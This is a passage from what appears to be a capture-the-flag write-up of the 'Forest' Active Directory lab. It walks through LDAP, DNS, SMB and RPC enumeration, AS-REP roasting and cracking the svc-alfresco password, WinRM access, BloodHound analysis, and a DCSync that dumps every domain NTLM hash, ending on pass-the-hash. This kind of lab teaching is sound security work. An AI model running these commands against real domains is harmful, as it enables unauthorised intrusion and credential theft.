|         objectGUID: fd83217-f5ac-314f-b92a-3ab34629222
|         systemFlags: -1946157056
|         objectCategory: CN=File-Link-Tracking,CN=Schema,CN=Configuration,DC=htb,DC=local
|         isCriticalSystemObject: TRUE
|         dSCorePropagationData: 2023/08/09 03:36:36 UTC
|         dSCorePropagationData: 2023/08/09 03:36:36 UTC
|         dSCorePropagationData: 2023/08/09 03:36:36 UTC
|         dSCorePropagationData: 2023/08/09 03:36:36 UTC
|         dSCorePropagationData: 1601/01/01 00:00:00 UTC
|     dn: CN=VolumeTable,CN=FileLinks,CN=System,DC=htb,DC=local
|     dn: CN=ObjectMoveTable,CN=FileLinks,CN=System,DC=htb,DC=local
|         objectClass: top
|         objectClass: fileLinkTracking
|         objectClass: linkTrackObjectMoveTable
|         cn: ObjectMoveTable
|         distinguishedName: CN=ObjectMoveTable,CN=FileLinks,CN=System,DC=htb,DC=local
|         instanceType: 4
|         whenCreated: 2019/09/18 17:45:57 UTC
|         whenChanged: 2019/09/23 22:51:14 UTC
|         uSNCreated: 5895
|         uSNChanged: 94397
|         showInAdvancedViewOnly: TRUE
|         name: ObjectMoveTable
|         objectGUID: e3c8cd1f-ec7f-3a48-87c8-e8dea40e68a
|         systemFlags: -1946157056
|         objectCategory: CN=Link-Track-Object-Move-Table,CN=Schema,CN=Configuration,DC=htb,DC=local
|         isCriticalSystemObject: TRUE
|         dSCorePropagationData: 2023/08/09 03:36:36 UTC
|         dSCorePropagationData: 2023/08/09 03:36:36 UTC
|         dSCorePropagationData: 2023/08/09 03:36:36 UTC
|         dSCorePropagationData: 2023/08/09 03:36:36 UTC
|         dSCorePropagationData: 1601/01/01 00:00:00 UTC
|     dn: CN=Default Domain Policy,CN=System,DC=htb,DC=local
|         objectClass: top
|         objectClass: leaf
|         objectClass: domainPolicy
|         cn: Default Domain Policy
|         distinguishedName: CN=Default Domain Policy,CN=System,DC=htb,DC=local
|         instanceType: 4
|         whenCreated: 2019/09/18 17:45:57 UTC
|         whenChanged: 2019/09/23 22:51:14 UTC
|         uSNCreated: 5896
|         uSNChanged: 94400
|         showInAdvancedViewOnly: TRUE
|         name: Default Domain Policy
|         objectGUID: 328b8880-223a-1743-9543-7c4dfda3359c
|         objectCategory: CN=Domain-Policy,CN=Schema,CN=Configuration,DC=htb,DC=local
|         isCriticalSystemObject: TRUE
|         dSCorePropagationData: 2023/08/09 03:36:36 UTC
|         dSCorePropagationData: 2023/08/09 03:36:36 UTC
|         dSCorePropagationData: 2023/08/09 03:36:36 UTC
|         dSCorePropagationData: 2023/08/09 03:36:36 UTC
|         dSCorePropagationData: 1601/01/01 00:00:00 UTC
|     dn: CN=AppCategories,CN=Default Domain Policy,CN=System,DC=htb,DC=local
|         objectClass: top
|         objectClass: classStore
|         cn: AppCategories
|         distinguishedName: CN=AppCategories,CN=Default Domain Policy,CN=System,DC=htb,DC=local
|         instanceType: 4
|         whenCreated: 2019/09/18 17:45:57 UTC
|         whenChanged: 2019/09/23 22:51:14 UTC
|         uSNCreated: 5897
|         uSNChanged: 94403
|         showInAdvancedViewOnly: TRUE
|         name: AppCategories
|         objectGUID: 382a68ea-8389-d84e-80ce-a295e7c6d3a1
|         objectCategory: CN=Class-Store,CN=Schema,CN=Configuration,DC=htb,DC=local
|         isCriticalSystemObject: TRUE
|         dSCorePropagationData: 2023/08/09 03:36:36 UTC
|         dSCorePropagationData: 2023/08/09 03:36:36 UTC
|         dSCorePropagationData: 2023/08/09 03:36:36 UTC
|         dSCorePropagationData: 2023/08/09 03:36:36 UTC
|         dSCorePropagationData: 1601/01/01 00:00:00 UTC
| 
| 
|_Result limited to 20 objects (see ldap.maxobjects)
```

DNS Enumeration: 

DNS can be queried to determine the domain controllers for a particular domain

```bash
dig srv _ldap._tcp.dc._msdcs.htb.local @10.10.10.161
```

Result: 

```bash
; <<>> DiG 9.18.16-1-Debian <<>> srv _ldap._tcp.dc._msdcs.htb.local @10.10.10.161
;; global options: +cmd
;; Got answer:
;; WARNING: .local is reserved for Multicast DNS
;; You are currently testing what happens when an mDNS query is leaked to DNS
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 45436
;; flags: qr aa rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 2

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4000
; COOKIE: 11d91c7ff6cc702e (echoed)
;; QUESTION SECTION:
;_ldap._tcp.dc._msdcs.htb.local.        IN      SRV

;; ANSWER SECTION:
_ldap._tcp.dc._msdcs.htb.local. 600 IN  SRV     0 100 389 FOREST.htb.local.

;; ADDITIONAL SECTION:
FOREST.htb.local.       3600    IN      A       10.10.10.161

;; Query time: 91 msec
;; SERVER: 10.10.10.161#53(10.10.10.161) (UDP)
;; WHEN: Tue Aug 08 23:40:52 EDT 2023
;; MSG SIZE  rcvd: 123
```

SMB Enumeration: 

```bash
nmap --script=smb-enum* -p445 -Pn -n 10.10.10.161 -oN SMBNmapScan
```

Result: 

```bash
Host script results:
| smb-enum-users: 
|   HTB\$331000-VK4ADACQNUCA (RID: 1123)
|     Flags:       Normal user account, Password Expired, Account disabled, Password not required
|   HTB\Administrator (RID: 500)
|     Full name:   Administrator
|     Description: Built-in account for administering the computer/domain
|     Flags:       Normal user account
|   HTB\andy (RID: 1150)
|     Full name:   Andy Hislip
|     Flags:       Normal user account, Password does not expire
|   HTB\DefaultAccount (RID: 503)
|     Description: A user account managed by the system.
|     Flags:       Normal user account, Account disabled, Password does not expire, Password not required
|   HTB\Guest (RID: 501)
|     Description: Built-in account for guest access to the computer/domain
|     Flags:       Normal user account, Account disabled, Password does not expire, Password not required
|   HTB\HealthMailbox0659cc1 (RID: 1144)
|     Full name:   HealthMailbox-EXCH01-010
|     Flags:       Normal user account, Password does not expire
|   HTB\HealthMailbox670628e (RID: 1137)
|     Full name:   HealthMailbox-EXCH01-003
|     Flags:       Normal user account, Password does not expire
|   HTB\HealthMailbox6ded678 (RID: 1139)
|     Full name:   HealthMailbox-EXCH01-005
|     Flags:       Normal user account, Password does not expire
|   HTB\HealthMailbox7108a4e (RID: 1143)
|     Full name:   HealthMailbox-EXCH01-009
|     Flags:       Normal user account, Password does not expire
|   HTB\HealthMailbox83d6781 (RID: 1140)
|     Full name:   HealthMailbox-EXCH01-006
|     Flags:       Normal user account, Password does not expire
|   HTB\HealthMailbox968e74d (RID: 1138)
|     Full name:   HealthMailbox-EXCH01-004
|     Flags:       Normal user account, Password does not expire
|   HTB\HealthMailboxb01ac64 (RID: 1142)
|     Full name:   HealthMailbox-EXCH01-008
|     Flags:       Normal user account, Password does not expire
|   HTB\HealthMailboxc0a90c9 (RID: 1136)
|     Full name:   HealthMailbox-EXCH01-002
|     Flags:       Normal user account, Password does not expire
|   HTB\HealthMailboxc3d7722 (RID: 1134)
|     Full name:   HealthMailbox-EXCH01-Mailbox-Database-1118319013
|     Flags:       Normal user account, Password does not expire
|   HTB\HealthMailboxfc9daad (RID: 1135)
|     Full name:   HealthMailbox-EXCH01-001
|     Flags:       Normal user account, Password does not expire
|   HTB\HealthMailboxfd87238 (RID: 1141)
|     Full name:   HealthMailbox-EXCH01-007
|     Flags:       Normal user account, Password does not expire
|   HTB\krbtgt (RID: 502)
|     Description: Key Distribution Center Service Account
|     Flags:       Normal user account, Account disabled
|   HTB\lucinda (RID: 1146)
|     Full name:   Lucinda Berger
|     Flags:       Normal user account, Password does not expire
|   HTB\mark (RID: 1151)
|     Full name:   Mark Brandt
|     Flags:       Normal user account, Password does not expire
|   HTB\santi (RID: 1152)
|     Full name:   Santi Rodriguez
|_    Flags:       Normal user account, Password does not expire
| smb-enum-domains: 
|   Builtin
|     Groups: Account Operators, Pre-Windows 2000 Compatible Access, Incoming Forest Trust Builders, Windows Authorization Access Group, Terminal Server License Servers, Administrators, Users, Guests, Print Operators, Backup Operators, Replicator, Remote Desktop Users, Network Configuration Operators, Performance Monitor Users, Performance Log Users, Distributed COM Users, IIS_IUSRS, Cryptographic Operators, Event Log Readers, Certificate Service DCOM Access, RDS Remote Access Servers, RDS Endpoint Servers, RDS Management Servers, Hyper-V Administrators, Access Control Assistance Operators, Remote Management Users, System Managed Accounts Group, Storage Replica Administrators, Server Operators
|     Users: n/a
|     Creation time: 2016-07-16T13:19:09
|     Passwords: min length: n/a; min age: n/a days; max age: 42 days; history: n/a passwords
|     Account lockout disabled
|   HTB
|     Groups: Cert Publishers, RAS and IAS Servers, Allowed RODC Password Replication Group, Denied RODC Password Replication Group, DnsAdmins
|     Users: Administrator, Guest, krbtgt, DefaultAccount, $331000-VK4ADACQNUCA, SM_2c8eef0a09b545acb, SM_ca8c2ed5bdab4dc9b, SM_75a538d3025e4db9a, SM_681f53d4942840e18, SM_1b41c9286325456bb, SM_9b69f1b9d2cc45549, SM_7c96b981967141ebb, SM_c75ee099d0a64c91b, SM_1ffab36a2f5f479cb, HealthMailboxc3d7722, HealthMailboxfc9daad
|     Creation time: 2023-08-09T02:58:34
|     Passwords: min length: 7; min age: 1.0 days; max age: n/a days; history: 24 passwords
|_    Account lockout disabled
| smb-enum-shares: 
|   note: ERROR: Enumerating shares failed, guessing at common ones (NT_STATUS_ACCESS_DENIED)
|   account_used: <blank>
|   \\10.10.10.161\ADMIN$: 
|     warning: Couldn't get details for share: NT_STATUS_ACCESS_DENIED
|     Anonymous access: <none>
|   \\10.10.10.161\C$: 
|     warning: Couldn't get details for share: NT_STATUS_ACCESS_DENIED
|     Anonymous access: <none>
|   \\10.10.10.161\IPC$: 
|     warning: Couldn't get details for share: NT_STATUS_ACCESS_DENIED
|     Anonymous access: READ
|   \\10.10.10.161\NETLOGON: 
|     warning: Couldn't get details for share: NT_STATUS_ACCESS_DENIED
|_    Anonymous access: <none>
```

RPC Enumeration:

```sql
rpcclient -U "" 10.10.10.161 -N -c "enumdomusers"
```

Result:

```sql
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[DefaultAccount] rid:[0x1f7]
user:[$331000-VK4ADACQNUCA] rid:[0x463]
user:[SM_2c8eef0a09b545acb] rid:[0x464]
user:[SM_ca8c2ed5bdab4dc9b] rid:[0x465]
user:[SM_75a538d3025e4db9a] rid:[0x466]
user:[SM_681f53d4942840e18] rid:[0x467]
user:[SM_1b41c9286325456bb] rid:[0x468]
user:[SM_9b69f1b9d2cc45549] rid:[0x469]
user:[SM_7c96b981967141ebb] rid:[0x46a]
user:[SM_c75ee099d0a64c91b] rid:[0x46b]
user:[SM_1ffab36a2f5f479cb] rid:[0x46c]
user:[HealthMailboxc3d7722] rid:[0x46e]
user:[HealthMailboxfc9daad] rid:[0x46f]
user:[HealthMailboxc0a90c9] rid:[0x470]
user:[HealthMailbox670628e] rid:[0x471]
user:[HealthMailbox968e74d] rid:[0x472]
user:[HealthMailbox6ded678] rid:[0x473]
user:[HealthMailbox83d6781] rid:[0x474]
user:[HealthMailboxfd87238] rid:[0x475]
user:[HealthMailboxb01ac64] rid:[0x476]
user:[HealthMailbox7108a4e] rid:[0x477]
user:[HealthMailbox0659cc1] rid:[0x478]
user:[sebastien] rid:[0x479]
user:[lucinda] rid:[0x47a]
user:[svc-alfresco] rid:[0x47b]
user:[andy] rid:[0x47e]
user:[mark] rid:[0x47f]
user:[santi] rid:[0x480]

```

Relevant usernames:

```bash
user:[sebastien] rid:[0x479]
user:[lucinda] rid:[0x47a]
user:[svc-alfresco] rid:[0x47b]
user:[andy] rid:[0x47e]
user:[mark] rid:[0x47f]
user:[santi] rid:[0x480]
```

Note: we can’t access any SMB share. 

# Initial Access

If we have valid usernames but no valid passwords, we can use `GetNPUsers.py` to **retrieve domain users who do not have `"Do not require Kerberos preauthentication"` set and ask for their TGTs without knowing their passwords.**

List of Usernames (list format):

```bash
Administrator 
andy 
lucinda 
mark 
santi
svc-alfresco
```

*Save this list into a file called `valid-users.txt` 

Execute the GetNPUsers Command: 

```sql
~/.local/bin/GetNPUsers.py -dc-ip 10.10.10.161 htb.local/ -no-pass -usersfile valid-users.txt
```

Result:

```sql
$krb5asrep$23$svc-alfresco@HTB.LOCAL:5a3c5ab81f515f89e3bc943b8f6b1cf3$adf82adf2884f296969883e536fa86f67252425ed2451598aadc4cfe1639e5fa66e6917ed914b125f85923c7996d347e24c37a6c5d8ca3a507a03067053cea95d882bf4eb762ec27e7a7ea5cf0f1d3ee1d686f05bde1e2c35a5499cd2925a99504a5ec18299fee68afb93b4a5285a1b03d1d002f3fbd161feab5a0279e05dd6efad5cc6ecbc37885486973b2022fd13c9f56b9d79ce2d45e84ed3d6ef5adffc3ade7bb300bc9d97be91753e73e4d599a1a71a9c4d38f60d27d0346bde7a9168550e622044cc18c79d98118c3e329b861767c476d11ba2bfcdb7f533ed354053f40bf9b91696b

```

Success we got a krb5asrep hash from the user `svc-alfresco`

Alternative we can use impacket to retrieve the hash: 

```bash
impacket-GetNPUsers -request -format john -dc-ip 10.10.10.161 'htb.local/'
```

Result: 

```bash
Name          MemberOf                                                PasswordLastSet             LastLogon                   UAC      
------------  ------------------------------------------------------  --------------------------  --------------------------  --------
svc-alfresco  CN=Service Accounts,OU=Security Groups,DC=htb,DC=local  2023-08-11 00:42:05.099524  2023-08-11 00:37:43.977497  0x410200 

$krb5asrep$svc-alfresco@HTB.LOCAL:c63e2927692c7f590f4c906848678fb5$4ee10de6cc5f4cf0a057af17d5b59eb8c209c6fb4e4a6abe1f400dbba7a4810edf626d2aeccd3e3b640813654b091f2941b5e177e7c13605fec110b6fb0c7769a1681a5ff6808c56285014a039d854b3aa50733213bfca8088affbcea3be38341971f42b717cfe65ecf3bdba6977e661bb3d83ad4b0e52a0cb21cd6f7caf459a9d421b9745976969e1941d2776105e7bfa14a6f7e3a522d5fd4a6ae7011e6a2e66e37b40c073a876f0e8d4177ffc9c003ddbfc525b900e5672bb03ec02d3296aa443a96831f83284e2d313f885fbee8a8cd29d4dda0fc06884fbab683a9c4404ed79ede344db
```

Now, we need to crack the hash, we can either use JTR or Hashcat:

```bash
john --format=krb5asrep hash-alfresco.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

Result: 

```bash
s3rvice          ($krb5asrep$svc-alfresco@HTB.LOCAL)
```

In summary, credentials:

```bash
svc-alfresco:s3rvice
```

## **WinRM Access**

Now, instead of using the SMB (TCP/445) protocol with `crackmapexec`, let’s try to use WinRM (TCP/5985) and see if we have a remote access. 

Let’s execute a simple `whoami` via crackmapexec:

```bash
crackmapexec winrm 10.10.10.161 -d 'htb.local' -u 'svc-alfresco' -p 's3rvice' -x whoami
```

Result: 



Success! This confirms that the account and the password are valid. 

Now, from kali, we have the option to employ Evil-WinRM, a Ruby utility that enforces the Microsoft WS-Management Protocol. Using the regained account, this tool enables us to establish a connection with the remote machine.

```bash
evil-winrm -i 10.10.10.161 -u svc-alfresco  -p s3rvice
```

Result: 


We got access to the machine. 

# Privilege Escalation

Having a legitimate account at our disposal, we are now able to employ one of the ingestors from the [**BloodHound**](https://github.com/BloodHoundAD/BloodHound) toolkit, enabling us to gather more comprehensive insights regarding the Active Directory

Command:

```sql
bloodhound-python -c all -u 'valid-user' -p 'valid-pass' -ns <domin-ip> -d <domain.local>
```

Upload the files to Bloodhound: 



Since we alread have pwned the user `svc-alfresco` let’s first mark this user as owned on Bloodhound:


Then, use the Analysis tab and look for the option “Shortest path to Domain Admins from Owned Principals. 


From the output we can see that user `svc-alfresco` has `AllExtendedRights` over the domain.

Let’s inspect with the help option what does it mean: 


Basically with this permission we can execute a DCSync: 


Command:

```sql
impacket-secretsdump htb.local/svc-alfresco:s3rvice@10.10.10.161 
```

Result:

```sql
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\$331000-VK4ADACQNUCA:1123:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_2c8eef0a09b545acb:1124:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_ca8c2ed5bdab4dc9b:1125:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_75a538d3025e4db9a:1126:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_681f53d4942840e18:1127:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_1b41c9286325456bb:1128:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_9b69f1b9d2cc45549:1129:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_7c96b981967141ebb:1130:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_c75ee099d0a64c91b:1131:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_1ffab36a2f5f479cb:1132:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\HealthMailboxc3d7722:1134:aad3b435b51404eeaad3b435b51404ee:4761b9904a3d88c9c9341ed081b4ec6f:::
htb.local\HealthMailboxfc9daad:1135:aad3b435b51404eeaad3b435b51404ee:5e89fd2c745d7de396a0152f0e130f44:::
htb.local\HealthMailboxc0a90c9:1136:aad3b435b51404eeaad3b435b51404ee:3b4ca7bcda9485fa39616888b9d43f05:::
htb.local\HealthMailbox670628e:1137:aad3b435b51404eeaad3b435b51404ee:e364467872c4b4d1aad555a9e62bc88a:::
htb.local\HealthMailbox968e74d:1138:aad3b435b51404eeaad3b435b51404ee:ca4f125b226a0adb0a4b1b39b7cd63a9:::
htb.local\HealthMailbox6ded678:1139:aad3b435b51404eeaad3b435b51404ee:c5b934f77c3424195ed0adfaae47f555:::
htb.local\HealthMailbox83d6781:1140:aad3b435b51404eeaad3b435b51404ee:9e8b2242038d28f141cc47ef932ccdf5:::
htb.local\HealthMailboxfd87238:1141:aad3b435b51404eeaad3b435b51404ee:f2fa616eae0d0546fc43b768f7c9eeff:::
htb.local\HealthMailboxb01ac64:1142:aad3b435b51404eeaad3b435b51404ee:0d17cfde47abc8cc3c58dc2154657203:::
htb.local\HealthMailbox7108a4e:1143:aad3b435b51404eeaad3b435b51404ee:d7baeec71c5108ff181eb9ba9b60c355:::
htb.local\HealthMailbox0659cc1:1144:aad3b435b51404eeaad3b435b51404ee:900a4884e1ed00dd6e36872859c03536:::
htb.local\sebastien:1145:aad3b435b51404eeaad3b435b51404ee:96246d980e3a8ceacbf9069173fa06fc:::
htb.local\lucinda:1146:aad3b435b51404eeaad3b435b51404ee:4c2af4b2cd8a15b1ebd0ef6c58b879c3:::
htb.local\svc-alfresco:1147:aad3b435b51404eeaad3b435b51404ee:9248997e4ef68ca2bb47ae4e6f128668:::
htb.local\andy:1150:aad3b435b51404eeaad3b435b51404ee:29dfccaf39618ff101de5165b19d524b:::
htb.local\mark:1151:aad3b435b51404eeaad3b435b51404ee:9e63ebcb217bf3c6b27056fdcb6150f7:::
htb.local\santi:1152:aad3b435b51404eeaad3b435b51404ee:483d4c70248510d8e0acb6066cd89072:::
```

From the output we got all the hashes from the domain, which ultimately enable us to access any user, among these we have the Administrator hash. 

```sql
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::

```

Checking with Crackmapexec we can  see the hash is valid:


Finally we can do a Pass the hash attack and connect using Evil-winrm

